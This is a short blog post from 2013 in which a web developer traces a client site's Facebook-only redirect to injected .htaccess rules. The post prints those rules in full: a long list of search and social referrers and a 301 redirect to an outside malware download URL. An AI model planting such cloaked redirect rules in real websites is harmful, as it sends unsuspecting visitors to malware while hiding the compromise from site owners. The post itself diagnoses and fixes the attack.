 ```yaml
---
title: "Malware2.0"
date: "2013-04-03"
---
```


A client emailed me today about an issue they were having. The problem was that if they visited their website via Facebook, the website would redirect to a different URL. However when they visited the website directly it worked fine. This took me by surprise for a few seconds, the malware was only acting if the user can from an external link? First thought was that the client’s system was infected by some sort of malware, however, when I tried their link from Facebook, the same thing happened on my end. So the issue was not only on client’s machine, either it was on Facebook (unlikely) or the client’s hosting server was compromised.

So I quickly opened Chrome Inspector and started observing the network tab as I clicked the link on Facebook. There it was, a “301 Moved Permanently” header which redirected the website to the malware website. The next obvious place to check was the .htaccess and bam! there it was:

```nginx
<IfModule mod_rewrite.c>

RewriteEngine On

RewriteCond %{HTTP_REFERER} ^.*(abacho|abizdirectory|about|acoon|alexana|allesklar|allpages|allthesites|alltheuk|alltheweb|altavista|america|amfibi|aol|apollo7|aport|arcor|ask|atsearch|baidu|bellnet|bestireland|bhanvad|bing|blog|bluewin|botw|brainysearch|bricabrac|browseireland|chapu|claymont|click4choice|clickey|clickz|clush|confex|cyber-content|daffodil|devaro|dmoz|dogpile|ebay|ehow|eniro|entireweb|euroseek|exalead|excite|express|facebook|fastbot|filesearch|findelio|findhow|finditireland|findloo|findwhat|finnalle|finnfirma|fireball|flemiro|flickr|freenet|friendsreunited|galaxy|gasta|gigablast|gimpsy|globalsearchdirectory|goo|google|goto|gulesider|hispavista|hotbot|hotfrog|icq|iesearch|ilse|infoseek|ireland-information|ixquick|jaan|jayde|jobrapido|kataweb|keyweb|kingdomseek|klammeraffe|km|kobala|kompass|kpnvandaag|kvasir|libero|limier|linkedin|live|liveinternet|lookle|lycos|mail|mamma|metabot|metacrawler|metaeureka|mojeek|msn|myspace|netscape|netzindex|nigma|nlsearch|nol9|oekoportal|openstat|orange|passagen|pocketflier|qp|qq|rambler|rtl|savio|schnellsuche|search|search-belgium|searchers|searchspot|sfr|sharelook|simplyhired|slider|sol|splut|spray|startpagina|startsiden|sucharchiv|suchbiene|suchbot|suchknecht|suchmaschine|suchnase|sympatico|telfort|telia|teoma|terra|the-arena|thisisouryear|thunderstone|tiscali|t-online|topseven|twitter|ukkey|uwe|verygoodsearch|vkontakte|voila|walhello|wanadoo|web|webalta|web-archiv|webcrawler|websuche|westaustraliaonline|wikipedia|wisenut|witch|wolong|ya|yahoo|yandex|yell|yippy|youtube|zoneru).(.*)

RewriteRule ^(.*)$ <a href="http://download.goandcall.com/counter.php">http://download.goandcall.com/counter.php</a> [R=301,L]

</IfModule>
```

view rawmalware_mod_rewrite hosted with ❤ by GitHub
The code itself is simple and elegant, if the referrer is anyone of the listed above, redirect to the malware URL. The brilliance about this hack is that the probability the client will find out directly is very low, in fact it was probably by chance they clicked on their own link on Facebook and saw this issue (or one of their viewers informed them).

So why did this happen? An unprotected .htaccess. Even if the hosting server was infected, the chances of malware actually having root access is fairly low. Thus, a simple chmod has secured this file from further abuse!
